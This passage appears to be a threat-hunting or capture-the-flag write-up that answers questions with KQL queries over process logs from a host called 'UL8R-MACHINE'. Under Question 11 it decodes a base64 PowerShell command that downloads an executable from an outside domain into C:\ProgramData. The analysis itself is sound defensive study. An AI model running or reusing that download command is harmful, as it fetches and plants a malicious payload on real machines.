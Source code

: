 Query given:

```sql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| where timestamp between (datetime("2024-02-16") .. datetime("2024-02-18"))
```

Answer: 

```sql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| where timestamp between (datetime("2024-02-16") .. datetime("2024-02-18"))
| count 
```

### **Question 11**: What domain does the encoded PowerShell reference?

```sql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| where timestamp between (datetime("2024-02-16") .. datetime("2024-02-18"))
| where process_name == 'powershell.exe'
| project process_commandline
```

```bash
└─$ echo -n 'cG93ZXJzaGVsbCAtYyAiSW52b2tlLVdlYlJlcXVlc3QgLVVyaSBodHRwOi8vbm90aWZpY2F0aW9uLWZpbmFuY2Utc2VydmljZXMuY29tL2ZpbGVzX2dvX2J5ZWJ5ZS5leGUgLU91dEZpbGUgQzpcXFByb2dyYW1EYXRhXFxmaWxlc19nb19ieWVieWUuZXhlIg==' | base64 -d
powershell -c "Invoke-WebRequest -Uri http://notification-finance-services.com/files_go_byebye.exe -OutFile C:\\ProgramData\\files_go_byebye.exe"                                                                       
```

### **Question 12**: What command is run right before the base64-encoded PowerShell?

Narrow down search with `process_hash` of malicious pwsh command and **[rows_near](https://learn.microsoft.com/en-us/azure/data-explorer/kusto/query/rows-near-plugin)** for ease of finding nearby rows.

```sql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| serialize 
| evaluate rows_near(process_hash == '6716595f0a4eeea7c0b4a34312356494c65653cfe6b4776d078bd599ca328842', 1, 0) 
```

### **Question 13**: How many devices ran the gpupdate /force command?

[gpupdate](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/gpupdate): Updates Group Policy settings.
